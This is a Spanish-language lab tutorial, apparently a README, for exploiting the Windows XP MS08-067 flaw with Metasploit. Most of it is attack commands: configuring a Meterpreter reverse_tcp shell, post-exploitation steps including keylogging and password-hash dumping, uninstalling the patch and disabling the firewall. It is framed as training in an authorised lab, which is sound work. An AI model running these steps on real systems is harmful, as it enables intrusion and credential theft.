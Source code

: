 # 🛡️ **Guía para Explotar MS08-067 con Metasploit**

________________________________________
## ⚠️ **Aviso Legal / Disclaimer**
Este ejercicio se realiza únicamente con fines educativos y de aprendizaje en un entorno controlado y autorizado.
No debe utilizarse en redes, sistemas o equipos fuera del laboratorio sin el consentimiento explícito del propietario.
El uso indebido de estas técnicas en contextos reales puede ser ilegal y tener consecuencias legales graves.
Como estudiantes y profesionales de la ciberseguridad, debemos actuar siempre de forma ética y responsable.
________________________________________

Esta guía explica paso a paso cómo explotar la vulnerabilidad MS08-067 (netapi) usando Metasploit Framework. Solo debe usarse con fines educativos o en entornos de laboratorio controlado. Explotar sistemas sin permiso es ilegal.
________________________________________
## 🛡️ **¿Qué es MS08-067?**
- Vulnerabilidad crítica en el servicio Server (netapi32.dll) de Windows.
- Permite ejecución remota de código sin autenticación.
- Afecta Windows XP SP2/SP3 y Server 2003 sin parches.
- Fue utilizada por el gusano Conficker.

## 🧰 **Requisitos del entorno de laboratorio**
- Kali Linux (máquina atacante). https://www.kali.org/get-kali/#kali-platforms
- Máquina víctima: Windows XP SP2/SP3 sin parches. https://archive.org/details/windows-xp-sp-2-september-2008
- Máquina víctima: Linuix (opcional). https://sourceforge.net/projects/metasploitable/
- Ambas en la misma red (real o virtual).

## 🧪 **Paso a paso: Explotación con Metasploit**

**🔹 1. Obtener la IP de la víctima** (en la máquina Windows)
<pre>ipconfig.</pre>

**🔹 2. Iniciar Metasploit** (en Kali)
<pre>msfconsole</pre>

**🔹 3. Buscar el exploit**
<pre>search ms08_067</pre>

**🔹 4. Cargar el exploit**
<pre>use exploit/windows/smb/ms08_067_netapi</pre>

**🔹 5. Ver opciones**
<pre>show options</pre>

**🔹 6. Configurar opciones**
<pre>set RHOST [IP víctima]</pre>
<pre>set LHOST [IP atacante]</pre>
<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

**🔹 7. Verificar configuración**
<pre>show options</pre>

**🔹 8. Ejecutar exploit**
<pre>exploit</pre>

**Resultado esperado**
<pre> Meterpreter session 1 opened </pre> 
Se abre una shell Meterpreter si tuvo éxito.

## 🧠 **¿Qué hacer con Meterpreter?**
- **sysinfo:** Info del sistema.
- **getuid:** Usuario actual.
- **shell:** Abre terminal.
- **download archivo:** Descargar archivo.
- **screenshot:** Captura de pantalla.
- **keyscan_start:** Inicia keylogger.
- **hashdump:** Extrae hashes de contraseñas.

## ❌ **Consejos adicionales**

-Para verificar si el Windows XP es vulnerable:
<pre> nmap -p 445 --script smb-vuln-ms08-067 <IP_víctima> </pre>

- Verificar si el parche MS08-067 esta instalado:
<pre> systeminfo | find "KB958644" </pre>

- En caso de estar instalado usar el siguiente comando para desinstalarlo:
<pre> wusa /uninstall /kb:958644 </pre>

- Desactivar firewall de Windows:
<pre> netsh firewall set opmode disable </pre>

## 📚 **Recursos**
- [Exploit-DB: MS08-067](https://www.exploit-db.com/exploits/7104)
- [Rapid7 Metasploit Docs](https://www.rapid7.com/blog/post/2014/02/03/new-ms08-067/)
